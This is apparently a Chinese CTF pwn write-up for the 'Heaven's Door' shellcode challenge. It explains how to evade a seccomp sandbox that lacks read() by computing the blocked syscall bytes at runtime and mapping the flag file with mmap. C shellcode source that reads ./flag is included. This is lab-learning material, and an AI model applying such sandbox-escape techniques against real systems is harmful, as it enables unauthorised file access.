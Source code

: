 ```python
io.interactive()
```

### 2. Heaven's Door

> ~~黑蚊子多！你已经死了~~

#### 2.1 分析

一道 `Shellcode` 的题目，有沙箱，属于 `ORW` 的变式，目前是缺失了 `read()` 

<img src="https://webimage.lufiende.work/1745490175460.png" alt="image-20250205000932518" style="zoom:67%;" />

代码逻辑也十分简单，把 `Shellcode` 读到由 `mmap()` 申请的 `RWX` 空间中并执行，其中**会检查 `syscall` 的数量**，由于是遍历检查，哪怕没有超过数量，只要符合 `syscall` 机器码的序列 `0f 05` 重复超过两次就不行，**但是由于可写，可以靠运算在即将执行的位置通过运算算出一个 `0f 05` 也行**

<img src="https://webimage.lufiende.work/1745490178390.png" alt="image-20250205001036237" style="zoom:67%;" />

接下来就是寻找 `read()` 的替代品的时候，由于采用了白名单，基本上只能这几个函数中选择，即使转 32 位也无法调用 `read()` 以及和其替代品，可以考虑使用 ·`mmap()` ，它的定义是这样的

```c
void* mmap(void* start, size_t length, int prot, int flags, int fd, off_t offset);
```

- **`start`**：指向欲映射的内存起始地址，设为 `NULL` 代表让系统自动选定地址
- **`length`**：代表将文件中多大的部分映射到内存，一般 0x1000 对齐
- **`prot`**：映射区域的保护方式，可以是 `PROT_EXEC` 、``PROT_READ` 、`PROT_WRITE`、`PROT_NONE` 的组合
- **`flags`**：影响映射区域的各种特性，必须指定 `MAP_SHARED` 或 `MAP_PRIVATE`
- **`fd`**：要映射到内存中的文件描述符 
- **`offset`**：文件映射的偏移量，通常设置为0，代表从文件最前方开始对应，必须是分页大小的整数倍。

其中 `fd` 这一参数可以把打开的文件映射到内存，十分完美的替代了 `read()` 的功能

#### 2.2 exp

##### 2.2.1 Shellcode 源

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>
#include <fcntl.h>

int main()
{
    int fd = 0;
    char path[] = "./flag";
    
    fd = open(path,0);
    mmap((void *)0x20000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE,fd,0);
    write(1,(void *)0x20000,0x100);

    return 0;
}
```
